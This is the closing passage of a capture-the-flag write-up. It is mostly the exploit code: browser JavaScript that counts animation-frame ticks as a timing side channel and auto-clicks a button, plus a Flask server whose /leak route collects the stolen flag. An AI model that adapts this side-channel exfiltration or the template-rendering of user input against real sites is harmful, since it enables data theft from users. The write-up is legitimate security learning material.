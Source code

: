 ```python
                targetLink.href = basisUrl;
                isPointingToBasisUrl = true;
            }

            var tickCount = 0;
            var tickRequestId;
            function startCountingTicks () {
                tickRequestId = requestAnimationFrame(function () {
                    ++tickCount;
                    startCountingTicks();
                });
            }
            function stopCountingTicks () {
                cancelAnimationFrame(tickRequestId);
                var oldTickCount = tickCount;
                tickCount = 0;
                return oldTickCount;
            }
        })();
        
        setTimeout(function () {
            var testButton = document.getElementById('testButton');
            testButton.click();
        }, 1000);
   
    </script>
</body>
</html>
'''

@app.route('/')
def index():
    return render_template_string(ex_html, CHALLENGE_URL=URL,CHARSET=CHARSET)

@app.route('/poc')
def poc():
    args = request.args.get('url')
    return render_template_string(poc_html, url=args, CHALLENGE_URL=URL,CHARSET=CHARSET)

@app.route('/leak')
def leak():
    flag = request.args.get('flag')
    if flag[-1] == '}':
        print(flag)
    return ""

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=1337)

```
Running this locally leaks the flag. 

![image](https://github.com/ixSly/CTFs/assets/32583633/dcaabc94-65eb-49ac-b32d-f1bb37c27cfa)


